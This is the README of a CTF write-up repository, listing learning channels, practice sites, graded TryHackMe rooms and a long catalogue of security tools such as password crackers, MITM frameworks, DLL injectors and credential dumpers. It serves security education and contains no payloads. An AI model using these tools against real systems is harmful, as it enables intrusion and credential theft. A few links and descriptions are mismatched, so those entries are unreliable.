

# CTFWriteUps

I will try organizing the challenges by difficulty and category in the README since I expect some people gonna use them as practice, however the difficulty I give it may be different than what you would expect. I will try to keep difficulty consistent throughout each category though.

Some categories here will also not match what is on the challenge solution README, that is because here I will put into the actual category while there I just put what the ctf said it was.

I've also included a list of **CTF resources** as well as a comprehensive **cheat sheet** covering tons of common CTF challenges.

# Table of Contents
- **[WriteUps](../CTFWriteUps/CTF_Problems_List_by_Difficulty/)**
  * [Easy Problems](../CTFWriteUps/CTF_Problems_List_by_Difficulty/Difficulty_Easy/README.md)
  * [Medium Problems](../CTFWriteUps/CTF_Problems_List_by_Difficulty/Difficulty_Medium/README.md)
  * [Hard Problems](../CTFWriteUps/CTF_Problems_List_by_Difficulty/Difficulty_Hard/README.md)
- **[Resources](#resources)**
  * [YouTube (We love video resources)](#youtube-we-love-video-resources)
  * [Practice / Learning Sites](#practice--learning-sites)
    + [CTFs](#ctfs)
    + [General](#general)
    + [Pwn](#pwn)
    + [Rev](#rev)
    + [Web](#web)
    + [Crypto](#crypto)
    + [Pentesting](#pentesting)
  * [Practice Problems for Self Learning](#practice-problems-for-self-learning)
    + [Level 1 - Intro](#level-1---intro)
    + [Level 2 - Tooling](#level-2---tooling)
    + [Level 3 - Hashing](#level-3---hashing)
    + [Level 4 - Web](#level-4---web)
    + [Level 5 - Reverse Enginnering](#level-5---reverse-engineering)
    + [Level 6 - PrivEsc](#level-6---privesc)
    + [Level 7 - CTF practice](#level-7---ctf-practice)
  * [Tools for Solving CTF Challenges](#tools-for-solving-ctf-challenges)
    + [Attacks](#attacks)
    + [Bruteforcers](#bruteforcers)
    + [Esoteric Languages](#esoteric-languages)
    + [Cryptography](#crypto-1)
    + [Exploits](#exploits)
    + [Forensics](#forensics)
    + [Networking](#networking)
    + [Reversing](#reversing)
    + [Services](#services)
    + [Steganography](#steganography)
    + [Web](#web-1)

- **[CTF Cheat Sheet](#ctf-cheat-sheet)**
  * [Forensics / Steganography](#forensics--steganography)
      - [General](#general-1)
      - [Audio](#audio)
      - [Image](#image)
      - [Video](#video)
      - [Machine Image](#machine-image)
      - [Pcap](#pcap)
  * [Pwn / Binary Exploitation](#pwn--binary-exploitation)
      - [General](#general-2)
      - [Buffer overflow](#buffer-overflow)
      - [PIE (Positional Independent Execution)](#pie-positional-independent-execution)
      - [NX (Non-executable)](#nx-non-executable)
      - [ROP (for statically compiled binaries)](#rop-for-statically-compiled-binaries)
      - [Stack Canary](#stack-canary)
      - [Format String Vulnerabilities](#format-string-vulnerabilities)
      - [Shellcode](#shellcode)
      - [Return-to-Libc](#return-to-libc)
  * [Reverse Engineering](#reverse-engineering)
      - [SMT Solvers](#smt-solvers)
      - [Reversing byte-by-byte checks](#reversing-byte-by-byte-checks-side-channel-attack)
      - [Searching strings with gef](#searching-strings-with-gef)
  * [Web](#web-2)
      - [Fuzzing input fields](#fuzzing-input-fields)
  * [Crypto](#crypto-2)
    + [CyberChef](#cyberchef)
    + [Common Ciphers](#common-ciphers)
    + [RSA](#rsa)
      - [Grab RSA Info with pycryptodome](#grab-rsa-info-with-pycryptodome)
      - [Chinese Remainder Theorem (p,q,e,c)](#chinese-remainder-theorem-pqec)
      - [Coppersmith attack (c,e)](#coppersmith-attack-ce)
      - [Pollards attack (n,e,c)](#pollards-attack-nec)
      - [Wiener Attack (n,e,c)](#wiener-attack-nec)

    + [Base16, 32, 36, 58, 64, 85, 91, 92](#base16-32-36-58-64-85-91-92)
  * [Box](#box)
    + [Connecting](#connecting)
    + [Enumeration](#enumeration)
    + [Privilege escalation](#privilege-escalation)
    + [Listen for reverse shell](#listen-for-reverse-shell)
    + [Reverse shell](#reverse-shell)
    + [Get interactive shell](#get-interactive-shell)
      - [Linux](#linux)
      - [Windows / General](#windows--general)
  * [OSINT](#osint)
  * [Misc](#misc)

# Resources
## YouTube (We love video resources)
- [John Hammond](https://www.youtube.com/user/RootOfTheNull)
    - Used to make a lot of CTF videos, but has moved on to more malware rev stuff
    - Still a ton of useful videos. The CTF ones especially are amazing for teaching brand new baby cyber members how to do things. Highly highly recommend.
- [Live Overflow](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w)
    - Makes extremely interesting and in-depth videos about cyber.
    - Has an [amazing pwn series](https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&ab_channel=LiveOverflow)
- [IppSec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA)
    - Best pwner on YouTube.
    - Makes writeups of every single HackTheBox machine
        - Talks about diff ways to solve and why things work. Highly recommend
- [Computerphile](https://www.youtube.com/user/Computerphile)
    - Same people as Numberphile, but cooler. Makes really beginner-level and intuitive videos about basic concepts.
- [pwn.college](https://www.youtube.com/channel/UCkRe0pvrQvhkhFSciV0l2MQ)
    - Beautiful, amazing, wonderful ASU professor that has tons of videos on pwn
    - Guided course material: [https://pwn.college/](https://pwn.college/)
    - Tons of practice problems: [https://dojo.pwn.college/](https://dojo.pwn.college/)
- [PwnFunction](https://www.youtube.com/channel/UCW6MNdOsqv2E9AjQkv9we7A)
    - Very high-quality and easy-to-understand animated videos about diff topics
    - Topics are a bit advanced, but easily understandable
- [Martin Carlisle](https://www.youtube.com/user/carlislemc/featured)
    - Princeton Grad - Cyber Professor - picoCTF problem writer - YouTuber - He's got it all!
    - Fr makes amazing writeup videos about the picoCTF challenges.
- [Sam Bowne](https://www.youtube.com/channel/UCC2OBhIt1sHE4odV05RYP1w)
	- Absolutely amazing professor at the City College of San Francisco
	- Sponsor of one of the best CPTC teams in the country
	- Open sources all of his lectures and course material on [his website](https://samsclass.info/)
- [UFSIT](https://www.youtube.com/channel/UCkRe0pvrQvhkhFSciV0l2MQ)
    - UF Cyber team (I'm a bit biased, but def one of the better YouTube channels for this)
- [Gynvael](https://www.youtube.com/channel/UCCkVMojdBWS-JtH7TliWkVg)
    - Polish guy that competes on an amazing international CTF team
    - Makes amazingly intuitive video writeups. Has done the entirety of picoCTF 2019 (that's a lot)
- [stacksmashing](https://www.youtube.com/c/stacksmashing/videos)
    - Amazing reverse engineering & hardware hacking videos
    - Has a really cool series of him reverse engineering WannaCry
- [Ben Greenberg](https://www.youtube.com/channel/UCsNzKjRToTA2G0lR8FiduWQ)
    - GMU prof with a bunch of pwn and malware video tutorials
    - A bit out-of-date, but still good
- [InfoSecLab at Georgia Tech](https://www.youtube.com/channel/UCUcnLCrBVK9gS6ctEUVvkjA/featured)
    - Good & advanced in-depth lectures on pwn
    - Requires some background knowledge
- [RPISEC](https://www.youtube.com/c/RPISEC_talks/videos)
    - RPI University team meetings
    - Very advanced and assumes a bit of cs background knowledge
    

**I've also collected some playlists of different topics**

[Pwn](https://www.youtube.com/playlist?list=PLwP8RAsXLdE7rmCJsnhSigSdxsgIGFfvx)

[Crypto](https://www.youtube.com/playlist?list=PLwP8RAsXLdE4luKhUCnMZbsWVB3nHtJgI)

[Web](https://www.youtube.com/playlist?list=PLwP8RAsXLdE4tKItjvHIAyDxrVB9v20qP)

[Forensics](https://www.youtube.com/playlist?list=PLwP8RAsXLdE77qStEZ6si0S8q1D8pdmmp)

[OSINT](https://www.youtube.com/playlist?list=PLwP8RAsXLdE485giESRsEkAxnhMm8T3wo)

[x86 Assembly](https://www.youtube.com/playlist?list=PLmxT2pVYo5LB5EzTPZGfFN0c2GDiSXgQe)

[CSAW writeups](https://www.youtube.com/playlist?list=PLwP8RAsXLdE5H265XMi4q_LhskD1zJGgK)

## Practice / Learning Sites
### CTFs
- [PicoCTF](https://play.picoctf.org/practice)
	- Tons of amazing practice challenges.
	- Definitely the gold standard for getting started
- [UCF](https://ctf.hackucf.org/challenges)
	- Good overall, but great pwn practice
	- I'm currently working on putting writeups [here](https://github.com/Adamkadaban/CTFs/tree/master/HackUCF)
- [hacker101](https://ctf.hacker101.com/ctf)
	- CTF, but slightly more geared toward pentesting
- [CSAW](https://365.csaw.io/)
	- Down 90% the time and usually none of the connections work
	- If it is up though, it has a lot of good introductory challenges
- [CTF101](https://ctf101.org/)
	- One of the best intros to CTFs I've seen (gj osiris)
	- Very succinct and beginner-friendly


### General
- [HackTheBox](hackthebox.com)
	- The OG box site
		- Boxes are curated to ensure quality
	- Now has some CTF-style problems
	- Now has courses to start learning
- [TryHackMe](https://tryhackme.com/hacktivities)
	- Slightly easier boxes than HackTheBox
	- Step-by-step challenges
	- Now has "learning paths" to guide you through topics
- [CybersecLabs](https://www.cyberseclabs.co.uk/)
	- Great collection of boxes
	- Has some CTF stuff
- [VulnHub](https://www.vulnhub.com/)
	- Has vulnerable virtual machines you have to deploy yourself
	- Lots of variety, but hard to find good ones imo
### Pwn
- [pwnable.kr](http://pwnable.kr/index.php)
	- Challenges with good range of difficulty
- [pwnable.tw](https://pwnable.tw/challenge/)
	- Harder than pwnable.tw
	- Has writeups once you solve the chall
- [pwnable.xyz](https://pwnable.xyz/challenges/)
	- More pwn challenges
	- Has writeups once you solve the chall
	- You can upload your own challenges once you solve all of them
- [pwn dojo](https://dojo.pwn.college)
	- Best collection of pwn challenges in my opinion
	- Backed up with slides teaching how to do it & has a discord if you need help
- [nightmare](https://guyinatuxedo.github.io/)
	- Gold standard for pwning C binaries
	- Has a few mistakes/typos, but amazing overall
- [pwn notes](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve)
	- Notes from some random person online
	- Very surface-level, but good intro to everything
- [Security Summer School](https://security.cs.pub.ro/summer-school/wiki/start)
	- University of Bucharest Security Course
	- Very beginner-friendly explanations 
- [RPISEC MBE](https://github.com/RPISEC/MBE)
    - RPI's Modern Binary Exploitation Course
    - Has a good amount of labs/projects for practice & some (slightly dated) lectures
- [how2heap](https://github.com/shellphish/how2heap)
    - Heap Exploitation series made by ASU's CTF team
    - Includes a very cool debugger feature to show how the exploits work
- [ROPEmporium](https://ropemporium.com/)
    - Set of challenges in every major architecture teaching Return-Oriented-Programming
    - Very high quality. Teaches the most basic to the most advanced techniques. 
    - I'm currently adding my own writeups [here](https://github.com/Adamkadaban/CTFs/tree/master/ROPEmporium/)

### Rev
- [challenges.re](https://challenges.re/)
	- So many challenges 0_0
	- Tons of diversity
- [reversing.kr](http://reversing.kr/)
- [crackmes.one](https://crackmes.one)
    - Tons of crackme (CTF) style challenges


### Web
- [websec.fr](http://websec.fr/#)
	- Lots of web challenges with a good range of difficulty
- [webhacking.kr](https://webhacking.kr/chall.php)
	- Has archive of lots of good web challenges
- [Securing Web Applications](https://samsclass.info/129S/129S_S22.shtml)
	- Open source CCSF Course
- [OWASP Juice Shop](https://owasp.org/www-project-juice-shop/)
	- Very much geared toward pentesting, but useful for exploring web in CTFs
	- Over 100 vulns/challenges in total
- [PortSwigger](https://portswigger.net/web-security/dashboard)
	- Gold standard for understanding web hacking
	- Tons of amazing challenges & explanations
- [DVWA](https://dvwa.co.uk/)
	- Very much geared toward pentesting, but useful for exploring web in CTFs
- [bWAPP](http://www.itsecgames.com/)
	- Very much geared toward pentesting, but useful for exploring web in CTFs
- [CTF Challenge](https://ctfchallenge.com/register)
    - Collection of web challenges made by Adam Langley that are made to be as realistic as possible.
    - Good for getting bug bounty experience
### Crypto
- [CryptoHack](https://cryptohack.org/)
	- I'm currently working on putting writeups [here](https://github.com/Adamkadaban/CTFs/tree/master/CryptoHack)
- [cryptopals](https://cryptopals.com/)
	- The OG crypto challenge site.
#### Smart Contracts
- [Capture the Ether](https://cryptohack.org/)
### Pentesting
- [hacker101](https://www.hacker101.com/videos)
- [hacksplaining](https://www.hacksplaining.com/lessons)
- [Exploit developement](https://samsclass.info/127/127_S22.shtml)
	- Open source CCSF Course
- [Intro to Security](https://cseweb.ucsd.edu/~dstefan/cse127-fall21/)
	- UC San Diego course taught by Deian Stefan
	- Covers basic pwn and crypto 
- [Active Directory Cheat Sheet](https://github.com/Tib3rius/Active-Directory-Exploitation-Cheat-Sheet)
- [WADComs](https://wadcoms.github.io/)
    - Interactive cheat sheet for Windows/AD environments
- [LOLBAS](https://lolbas-project.github.io/)
    - Interactive cheat sheet for **Windows** "Living off the land" binaries, scripts, and libraries for exploitation 
- [GTFOBins](https://gtfobins.github.io/)
    - Interactive cheat sheet for **Linux** "Living off the land" techniques.

## Practice Problems for Self Learning
### Level 1 - Intro
- [OpenVPN](https://tryhackme.com/room/openvpn)
- [Welcome](https://tryhackme.com/jr/welcome)
- [Intro to Researching](https://tryhackme.com/room/introtoresearch)
- [Learn Linux](https://tryhackme.com/room/zthlinux)
- [Crash Course Pentesting](https://tryhackme.com/room/ccpentesting)

Introductory CTFs to get your feet wet
- [Google Dorking](https://tryhackme.com/room/googledorking)
- [OHsint](https://tryhackme.com/room/ohsint)
- [Shodan.io](https://tryhackme.com/room/shodan)

### Level 2 - Tooling
- [Tmux](https://tryhackme.com/room/rptmux)
- [Nmap](https://tryhackme.com/room/rpnmap)
- [Web Scanning](https://tryhackme.com/room/rpwebscanning)
- [Sublist3r](https://tryhackme.com/room/rpsublist3r)
- [Metasploit](https://tryhackme.com/room/rpmetasploit)
- [Hydra](https://tryhackme.com/room/hydra)
- [Linux Privesc](https://tryhackme.com/room/linuxprivesc)
- [Web Scanning](https://tryhackme.com/room/rpwebscanning)

More introductory CTFs
- [Vulnversity](https://tryhackme.com/room/vulnversity)
- [Blue](https://tryhackme.com/room/blue)
- [Simple CTF](https://tryhackme.com/room/easyctf)
- [Bounty Hacker](https://tryhackme.com/room/cowboyhacker)

### Level 3 - Crypto & Hashes with CTF practice
- [Crack the hash](https://tryhackme.com/room/crackthehash)
- [Agent Sudo](https://tryhackme.com/room/agentsudoctf)
- [The Cod Caper](https://tryhackme.com/room/thecodcaper)
- [Ice](https://tryhackme.com/room/ice)
- [Lazy Admin](https://tryhackme.com/room/lazyadmin)
- [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt)

### Level 4 - Web
- [OWASP top 10](https://tryhackme.com/room/owasptop10)
- [Inclusion](https://tryhackme.com/room/inclusion)
- [Injection](https://tryhackme.com/room/injection)
- [Vulnversity](https://tryhackme.com/room/vulnversity)
- [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt)
- [Juiceshop](https://tryhackme.com/room/owaspjuiceshop)
- [Ignite](https://tryhackme.com/room/ignite)
- [Overpass](https://tryhackme.com/room/overpass)
- [Year of the Rabbit](https://tryhackme.com/room/yearoftherabbit)
- [DevelPy](https://tryhackme.com/room/bsidesgtdevelpy)
- [Jack of all trades](https://tryhackme.com/room/jackofalltrades)
- [Bolt](https://tryhackme.com/room/bolt)

### Level 5 - Reverse Engineering
- [Intro to x86 64](https://tryhackme.com/room/introtox8664)
- [CC Ghidra](https://tryhackme.com/room/ccghidra)
- [CC Radare2](https://tryhackme.com/room/ccradare2)
- [CC Steganography](https://tryhackme.com/room/ccstego)
- [Reverse Engineering](https://tryhackme.com/room/reverseengineering)
- [Reversing ELF](https://tryhackme.com/room/reverselfiles)
- [Dumping Router Firmware](https://tryhackme.com/room/rfirmware)

### Level 6 - PrivEsc
- [Sudo Security Bypass](https://tryhackme.com/room/sudovulnsbypass)
- [Sudo Buffer Overflow](https://tryhackme.com/room/sudovulnsbof)
- [Windows Privesc Arena](https://tryhackme.com/room/windowsprivescarena)
- [Linux Privesc Arena](https://tryhackme.com/room/linuxprivescarena)
- [Windows Privesc](https://tryhackme.com/room/windows10privesc)
- [Blaster](https://tryhackme.com/room/blaster)
- [Ignite](https://tryhackme.com/room/ignite)
- [Kenobi](https://tryhackme.com/room/kenobi)
- [Capture the flag](https://tryhackme.com/room/c4ptur3th3fl4g)
- [Pickle Rick](https://tryhackme.com/room/picklerick)

### Level 7 - CTF practice
- [Post Exploitation Basics](https://tryhackme.com/room/postexploit)
- [Smag Grotto](https://tryhackme.com/room/smaggrotto)
- [Inclusion](https://tryhackme.com/room/inclusion)
- [Dogcat](https://tryhackme.com/room/dogcat)
- [LFI basics](https://tryhackme.com/room/lfibasics)
- [Buffer Overflow Prep](https://tryhackme.com/room/bufferoverflowprep)
- [Overpass](https://tryhackme.com/room/overpass)
- [Break out the cage](https://tryhackme.com/room/breakoutthecage1)
- [Lian Yu](https://tryhackme.com/room/lianyu)


# Tools for Solving CTF Challenges

## Attacks

*Tools used for performing various kinds of attacks*

- [Bettercap](https://github.com/bettercap/bettercap) - Framework to perform MITM (Man in the Middle) attacks.
- [Yersinia](https://github.com/tomac/yersinia) - Attack various protocols on layer 2.

## Crypto

*Tools used for solving Crypto challenges*

- [CyberChef](https://gchq.github.io/CyberChef) - Web app for analysing and decoding data.
- [Cryptii](https://cryptii.com/) - Web app offering modular conversion, encoding and encryption online.
- [FeatherDuster](https://github.com/nccgroup/featherduster) - An automated, modular cryptanalysis tool.
- [Hash Extender](https://github.com/iagox86/hash_extender) - A utility tool for performing hash length extension attacks.
- [padding-oracle-attacker](https://github.com/KishanBagaria/padding-oracle-attacker) - A CLI tool to execute padding oracle attacks.
- [PkCrack](https://www.unix-ag.uni-kl.de/~conrad/krypto/pkcrack.html) - A tool for Breaking PkZip-encryption.
- [QuipQuip](https://quipqiup.com) - An online tool for breaking substitution ciphers or vigenere ciphers (without key).
- [RSACTFTool](https://github.com/Ganapati/RsaCtfTool) - A tool for recovering RSA private key with various attack.
- [RSATool](https://github.com/ius/rsatool) - Generate private key with knowledge of p and q.
- [XORTool](https://github.com/hellman/xortool) - A tool to analyze multi-byte xor cipher.

## Bruteforcers

*Tools used for various kind of bruteforcing (passwords etc.)*

- [Hashcat](https://hashcat.net/hashcat/) - Password Cracker
- [Hydra](https://tools.kali.org/password-attacks/hydra) - A parallelized login cracker which supports numerous protocols to attack
- [John The Jumbo](https://github.com/magnumripper/JohnTheRipper) - Community enhanced version of John the Ripper.
- [John The Ripper](http://www.openwall.com/john/) - Password Cracker.
- [Nozzlr](https://github.com/intrd/nozzlr) - Nozzlr is a bruteforce framework, trully modular and script-friendly.
- [Ophcrack](http://ophcrack.sourceforge.net/) - Windows password cracker based on rainbow tables.
- [Patator](https://github.com/lanjelot/patator) - Patator is a multi-purpose brute-forcer, with a modular design.
- [Turbo Intruder](https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack) - Burp Suite extension for sending large numbers of HTTP requests 

## Esoteric Languages

- [Brainfuck](https://copy.sh/brainfuck/) - Brainfuck esoteric programming language IDE.
- [COW](https://frank-buss.de/cow.html) - It is a Brainfuck variant designed humorously with Bovinae in mind.
- [Malbolge](http://www.malbolge.doleczek.pl/) - Malbolge esoteric programming language solver.
- [Ook!](https://www.dcode.fr/ook-language) - Tool for decoding / encoding in Ook!
- [Piet](https://www.bertnase.de/npiet/npiet-execute.php) - Piet programming language compiler.
- [Rockstar](https://codewithrockstar.com/online) - A language intended to look like song lyrics.
- [Try It Online](https://tio.run/) - An online tool that has a ton of Esoteric language interpreters.

## Exploits

*Tools used for solving Exploits challenges*

- [afl](https://lcamtuf.coredump.cx/afl/) - Security-oriented fuzzer.
- [DLLInjector](https://github.com/OpenSecurityResearch/dllinjector) - Inject dlls in processes.
- [honggfuzz](https://github.com/google/honggfuzz) - Security oriented software fuzzer. Supports evolutionary, feedback-driven fuzzing based on code coverage.
- [libformatstr](https://github.com/hellman/libformatstr) - Simplify format string exploitation.
- [Metasploit](http://www.metasploit.com/) - Penetration testing software.
  - [Cheatsheet](https://www.comparitech.com/net-admin/metasploit-cheat-sheet/)
- [one_gadget](https://github.com/david942j/one_gadget) -  A tool to find the one gadget `execve('/bin/sh', NULL, NULL)` call.
  - `gem install one_gadget`
- [Pwntools](https://github.com/Gallopsled/pwntools) - CTF Framework for writing exploits.
- [Qira](https://github.com/BinaryAnalysisPlatform/qira) - QEMU Interactive Runtime Analyser.
- [ROP Gadget](https://github.com/JonathanSalwan/ROPgadget) - Framework for ROP exploitation.
- [Ropper](https://github.com/sashs/Ropper) - Display information about files in different file formats and find gadgets to build rop chains for different architectures.
- [Shellcodes Database](http://shell-storm.org/shellcode/) - A massive shellcodes database.
- [V0lt](https://github.com/P1kachu/v0lt) - Security CTF Toolkit.

## Forensics

*Tools used for solving Forensics challenges*

- [Autopsy](https://www.autopsy.com/) - End-to-end open source digital forensics platform.
- [Aircrack-Ng](http://www.aircrack-ng.org/) - Crack 802.11 WEP and WPA-PSK keys.
  - `apt-get install aircrack-ng`
- [Audacity](http://sourceforge.net/projects/audacity/) - Analyze sound files (mp3, m4a, whatever).
  - `apt-get install audacity`
- [Binwalk](https://github.com/devttys0/binwalk) - Firmware Analysis Tool.
- [Bkhive and Samdump2](http://sourceforge.net/projects/ophcrack/files/samdump2/) - Dump SYSTEM and SAM files.
  - `apt-get install samdump2 bkhive`
- [Bulk-extractor](https://github.com/simsong/bulk_extractor) - High-performance digital forensics exploitation tool.
- [CFF Explorer](http://www.ntcore.com/exsuite.php) - PE Editor.
- [ChromeCacheView](https://www.nirsoft.net/utils/chrome_cache_view.html) - Small utility that reads the cache folder of Google Chrome Web browser, and displays the list of all files currently stored in the cache.
- [Creddump](https://github.com/moyix/creddump) - Dump windows credentials.
- [DVCS Ripper](https://github.com/kost/dvcs-ripper) - Rips web accessible (distributed) version control systems.
- [Exif Tool](http://www.sno.phy.queensu.ca/~phil/exiftool/) - Read, write and edit file metadata.
- [Extundelete](http://extundelete.sourceforge.net/) - Used for recovering lost data from mountable images.
- [Fibratus](https://github.com/rabbitstack/fibratus) - Tool for exploration and tracing of the Windows kernel.
- [firmware-mod-kit](https://code.google.com/archive/p/firmware-mod-kit/) - Modify firmware images without recompiling.
- [Foremost](http://foremost.sourceforge.net/) - Extract particular kind of files using headers.
  - `apt-get install foremost`
- [Fsck.ext4](http://linux.die.net/man/8/fsck.ext3) - Used to fix corrupt filesystems.
- [Malzilla](http://malzilla.sourceforge.net/) - Malware hunting tool.
- [MZCacheView](https://www.nirsoft.net/utils/mozilla_cache_viewer.html) - Small utility that reads the cache folder of Firefox/Mozilla/Netscape Web browsers, and displays the list of all files currently stored in the cache.
- [NetworkMiner](http://www.netresec.com/?page=NetworkMiner) - Network Forensic Analysis Tool.
- [PDF Streams Inflater](http://malzilla.sourceforge.net/downloads.html) - Find and extract zlib files compressed in PDF files.
- [Pngcheck](http://www.libpng.org/pub/png/apps/pngcheck.html) - Verifies the integrity of PNG and dump all of the chunk-level information in human-readable form.
  - `apt-get install pngcheck`
- [ResourcesExtract](http://www.nirsoft.net/utils/resources_extract.html) - Extract various filetypes from exes.
- [Shellbags](https://github.com/williballenthin/shellbags) - Investigate NT\_USER.dat files.
- [Snow](https://sbmlabs.com/notes/snow_whitespace_steganography_tool) - A Whitespace Steganography Tool.
- [USBRip](https://github.com/snovvcrash/usbrip) - Simple CLI forensics tool for tracking USB device artifacts (history of USB events) on GNU/Linux.
- [Volatility](https://github.com/volatilityfoundation/volatility) - To investigate memory dumps.
- [Wireshark](https://www.wireshark.org) - Used to analyze pcap or pcapng files
- [X-Ways](https://www.x-ways.net/forensics/index-m.html) - Advanced work environment for computer forensic examiners.

*Registry Viewers*
- [OfflineRegistryView](https://www.nirsoft.net/utils/offline_registry_view.html) - Simple tool for Windows that allows you to read offline Registry files from external drive and view the desired Registry key in .reg file format.
- [Registry Viewer®](https://accessdata.com/product-download/registry-viewer-2-0-0) - Used to view Windows registries.

## Networking

*Tools used for solving Networking challenges*

- [Masscan](https://github.com/robertdavidgraham/masscan) - Mass IP port scanner, TCP port scanner.
- [Monit](https://linoxide.com/monitoring-2/monit-linux/) - A linux tool to check a host on the network (and other non-network activities).
- [Nipe](https://github.com/GouveaHeitor/nipe) - Nipe is a script to make Tor Network your default gateway.
- [Nmap](https://nmap.org/) - An open source utility for network discovery and security auditing.
- [Wireshark](https://www.wireshark.org/) - Analyze the network dumps.
  - `apt-get install wireshark`
- [Zeek](https://www.zeek.org) - An open-source network security monitor.
- [Zmap](https://zmap.io/) - An open-source network scanner.

## Reversing

*Tools used for solving Reversing challenges*

- [Androguard](https://github.com/androguard/androguard) - Reverse engineer Android applications.
- [Angr](https://github.com/angr/angr) - platform-agnostic binary analysis framework.
- [Apk2Gold](https://github.com/lxdvs/apk2gold) - Yet another Android decompiler.
- [ApkTool](http://ibotpeaches.github.io/Apktool/) - Android Decompiler.
- [Barf](https://github.com/programa-stic/barf-project) - Binary Analysis and Reverse engineering Framework.
- [Binary Ninja](https://binary.ninja/) - Binary analysis framework.
- [BinUtils](http://www.gnu.org/software/binutils/binutils.html) - Collection of binary tools.
- [BinWalk](https://github.com/devttys0/binwalk) - Analyze, reverse engineer, and extract firmware images.
- [Boomerang](https://github.com/BoomerangDecompiler/boomerang) - Decompile x86/SPARC/PowerPC/ST-20 binaries to C.
- [ctf_import](https://github.com/docileninja/ctf_import) – run basic functions from stripped binaries cross platform.
- [cwe_checker](https://github.com/fkie-cad/cwe_checker) - cwe_checker finds vulnerable patterns in binary executables.
- [demovfuscator](https://github.com/kirschju/demovfuscator) - A work-in-progress deobfuscator for movfuscated binaries.
- [Frida](https://github.com/frida/) - Dynamic Code Injection.
- [GDB](https://www.gnu.org/software/gdb/) - The GNU project debugger.
- [GEF](https://github.com/hugsy/gef) - GDB plugin.
- [Ghidra](https://ghidra-sre.org/) - Open Source suite of reverse engineering tools.  Similar to IDA Pro.
- [Hopper](http://www.hopperapp.com/) - Reverse engineering tool (disassembler) for OSX and Linux.
- [IDA Pro](https://www.hex-rays.com/products/ida/) - Most used Reversing software.
- [Jadx](https://github.com/skylot/jadx) - Decompile Android files.
- [Java Decompilers](http://www.javadecompilers.com) - An online decompiler for Java and Android APKs.
- [Krakatau](https://github.com/Storyyeller/Krakatau) - Java decompiler and disassembler.
- [Objection](https://github.com/sensepost/objection) - Runtime Mobile Exploration.
- [PEDA](https://github.com/longld/peda) - GDB plugin (only python2.7).
- [Pin](https://software.intel.com/en-us/articles/pin-a-dynamic-binary-instrumentation-tool) - A dynamic binary instrumentaion tool by Intel.
- [PINCE](https://github.com/korcankaraokcu/PINCE) - GDB front-end/reverse engineering tool, focused on game-hacking and automation.
- [PinCTF](https://github.com/ChrisTheCoolHut/PinCTF) - A tool which uses intel pin for Side Channel Analysis.
- [Plasma](https://github.com/joelpx/plasma) - An interactive disassembler for x86/ARM/MIPS which can generate indented pseudo-code with colored syntax.
- [Pwndbg](https://github.com/pwndbg/pwndbg) - A GDB plugin that provides a suite of utilities to hack around GDB easily.
- [radare2](https://github.com/radare/radare2) - A portable reversing framework.
- [Triton](https://github.com/JonathanSalwan/Triton/) - Dynamic Binary Analysis (DBA) framework.
- [Uncompyle](https://github.com/gstarnberger/uncompyle) - Decompile Python 2.7 binaries (.pyc).
- [WinDbg](http://www.windbg.org/) - Windows debugger distributed by Microsoft.
- [Xocopy](http://reverse.lostrealm.com/tools/xocopy.html) - Program that can copy executables with execute, but no read permission.
- [Z3](https://github.com/Z3Prover/z3) - A theorem prover from Microsoft Research.

*JavaScript Deobfuscators*

- [Detox](http://relentless-coding.org/projects/jsdetox/install) - A Javascript malware analysis tool.
- [Revelo](http://www.kahusecurity.com/posts/revelo_javascript_deobfuscator.html) - Analyze obfuscated Javascript code.

*SWF Analyzers*
- [RABCDAsm](https://github.com/CyberShadow/RABCDAsm) - Collection of utilities including an ActionScript 3 assembler/disassembler.
- [Swftools](http://www.swftools.org/) - Collection of utilities to work with SWF files.
- [Xxxswf](https://bitbucket.org/Alexander_Hanel/xxxswf) -  A Python script for analyzing Flash files.

## Services

*Various kind of useful services available around the internet*

- [CSWSH](http://cow.cat/cswsh.html) - Cross-Site WebSocket Hijacking Tester.
- [Request Bin](https://requestbin.com/) - Lets you inspect http requests to a particular url.

## Steganography

*Tools used for solving Steganography challenges*

- [AperiSolve](https://aperisolve.fr/) - Aperi'Solve is a platform which performs layer analysis on image (open-source).
- [BPStegano](https://github.com/TapanSoni/BPStegano) - Python3 based LSB steganography. 
- [Convert](http://www.imagemagick.org/script/convert.php) - Convert images b/w formats and apply filters.
- [DTMF Tones](http://dialabc.com/sound/detect/index.html) - Audio frequencies common to a phone button.
- [Exif](http://manpages.ubuntu.com/manpages/trusty/man1/exif.1.html) - Shows EXIF information in JPEG files.
- [Exiftool](https://linux.die.net/man/1/exiftool) - Read and write meta information in files.
- [Exiv2](http://www.exiv2.org/manpage.html) - Image metadata manipulation tool.
- [hipshot](https://bitbucket.org/eliteraspberries/hipshot/src/master/) - Tool to converts a video file or series of photographs into a single image simulating a long-exposure photograph.
- [Image Steganography](https://sourceforge.net/projects/image-steg/) - Embeds text and files in images with optional encryption. Easy-to-use UI.
- [Image Steganography Online](https://incoherency.co.uk/image-steganography) - This is a client-side Javascript tool to steganographically hide images inside the lower "bits" of other images
- [ImageMagick](http://www.imagemagick.org/script/index.php) - Tool for manipulating images.
- [Outguess](https://www.freebsd.org/cgi/man.cgi?query=outguess+&apropos=0&sektion=0&manpath=FreeBSD+Ports+5.1-RELEASE&format=html) - Universal steganographic tool.
- [Pngcheck](http://www.libpng.org/pub/png/apps/pngcheck.html) - Verifies the integrity of PNG and dump all of the chunk-level information in human-readable form.
- [Pngtools](https://packages.debian.org/sid/pngtools) - For various analysis related to PNGs.
  - `apt-get install pngtools`
- [SmartDeblur](https://github.com/Y-Vladimir/SmartDeblur) - Used to deblur and fix defocused images.
- [Snow](https://sbmlabs.com/notes/snow_whitespace_steganography_tool) - Whitespace Steganography Tool
- [Sonic Visualizer](https://www.sonicvisualiser.org/) - Audio file visualization.
- [Steganabara](https://www.openhub.net/p/steganabara) -  Tool for stegano analysis written in Java.
- [Steganography Online](https://stylesuxx.github.io/steganography/) - Online steganography encoder and decoder.
